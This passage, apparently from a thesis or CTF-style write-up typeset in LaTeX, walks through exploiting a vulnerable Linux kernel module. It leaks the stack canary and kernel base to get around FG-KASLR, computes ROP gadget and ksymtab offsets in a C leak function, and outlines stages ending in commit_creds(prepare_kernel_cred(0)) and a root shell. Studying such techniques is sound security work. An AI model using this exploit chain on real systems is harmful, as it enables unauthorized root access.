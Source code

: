 \documentclass{masterthesis}
\begin{document}
\texttt{\lstinline{__ x86_retpoline_r15}, \lstinline{swapgs_restore_regs_and_return_to_usermode}, \lstinline{ksymtab}} are never randomized with respect to \lstinline{\_text}, and in particular both \lstinline{commit\_creds} and \lstinline{prepare_kernel_cred} keep the same offset inside \lstinline{ksymtab}.
To find the base image instead, you need to inspect the stack when reading the module, look at a large amount of data and find an address located in the \lstinline{_text} region.
Reading 320 bytes, we find at 304th byte an address that falls in the region of \lstinline{_text}. From that value, we subtract the address of \lstinline{_text} and find the base image.
From there we calculate the various offsets with the functions not affected by FG\_KASLR:
\begin{lstlisting}
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    image_base = leak[38] - 0xa157ULL;
    kpti_trampoline = image_base + 0x200f10UL + 22UL;
    pop_rax_ret = image_base + 0x4d11UL;
    read_mem_pop1_ret = image_base + 0x4aaeUL;
    pop_rdi_rbp_ret = image_base + 0x38a0UL;
    ksymtab_prepare_kernel_cred = image_base + 0xf8d4fcUL;
    ksymtab_commit_creds = image_base + 0xf87d90UL;
    ........
}
\end{lstlisting}
From here on we have 4 stages:
\begin{enumerate}
\item Leaking commit\_creds();
\item Leaking prepare\_kernel\_cred();
\item Calling prepare\_kernel\_cred(0);
\item Calling commit\_creds() and opening root shell;
\end{enumerate}
\end{document}
